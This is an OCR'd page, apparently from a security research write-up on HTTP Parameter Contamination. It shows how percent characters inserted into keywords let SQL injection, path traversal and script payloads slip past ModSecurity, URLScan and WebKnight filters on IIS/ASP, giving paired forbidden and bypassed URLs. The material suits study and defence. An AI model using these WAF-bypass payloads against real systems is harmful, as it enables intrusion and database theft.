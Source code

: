 	+-----------------------------------------------------------+
	
	Magic character "%" affect to ASP/ASP.NET	

	+--------------------------------------------------------------------+
	| 	Keywords     |        WAF   		  |  ASP/ASP.NET     |
	+--------------------------------------------------------------------+
	| sele%ct * fr%om..  | sele%ct * fr%om.. 	  | select * from..  |
	| ;dr%op ta%ble xxx  | ;dr%op ta%ble xxx	  | ;drop table xxx  |
	| <scr%ipt>	     | <scr%ipt>		  | <script>	     |
	| <if%rame>	     | <if%rame>		  | <iframe>         |
	+--------------------------------------------------------------------+


	#Real world examples:

	1. Bypass Mod_Security SQL Injection rule (modsecurity_crs_41_sql_injection_attacks.conf) 

		[Filtered]----------------------------------------------------------------------------------
	
		[Sun Jun 12 12:30:16 2011] [error] [client 192.168.2.102] ModSecurity: Access denied with code 403 (phase 2). Pattern match "\\bsys\\.user_objects\\b" 
		at ARGS_NAMES:sys.user_objects. [file "/etc/apache2/conf.d/crs/activated_rules/modsecurity_crs_41_sql_injection_attacks.conf"] [line "110"] [id "959519"] 
		[rev "2.2.0"] [msg 	"Blind SQL Injection Attack"] [data "sys.user_objects"] [severity "CRITICAL"] [tag "WEB_ATTACK/SQL_INJECTION"] [tag "WASCTC/WASC-19"] 
		[tag "OWASP_TOP_10/A1"] [tag "OWASP_AppSensor/CIE1"] [tag "PCI/6.5.2"] [hostname "localhost"] [uri "/"] [unique_id "TfT3gH8AAQEAAAPyLQQAAAAA"]

		[End Code]------------------------------------------------------------------------------

		Forbidden: http://localhost/?xp_cmdshell
		Bypassed : http://localhost/?xp[cmdshell

	2. Bypass URLScan 3.1 DenyQueryStringSequences rule
	
		Forbidden: http://localhost/test.asp?file=../bla.txt
		Bypassed : http://localhost/test.asp?file=.%./bla.txt

	3. Bypass AQTRONIX Webknight (WAF for IIS and ASP/ASP.Net)

		Forbidden: http://victim.com/news.asp?id=10 and 1=0/(select top 1 table_name from information_schema.tables)
		Bypassed : http://victim.com/news.asp?id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)

		From this situation, Webknight use SQL keywords filtering when we use "HTTP contamination" by insert "%" into SQL keywords WAF is bypassed and sending these
		command to Web server: "id=10 and 1=0/(select top 1 table_name from information_schema.tables)" because "%" is cutter in web server.
	

		These types of hacking techniques are always interesting because they reveal new perspectives on security problems.
	Many applications are found to be vulnerable to this kind of abuse because there are no defined rules for strange web server behaviors.
		HPC can be used to extend HPP attack with spoofing real parameter name in the QUERY_STRING with "%" character on an IIS/ASP platform,
	if there is WAF who blocks this kind of an attack.
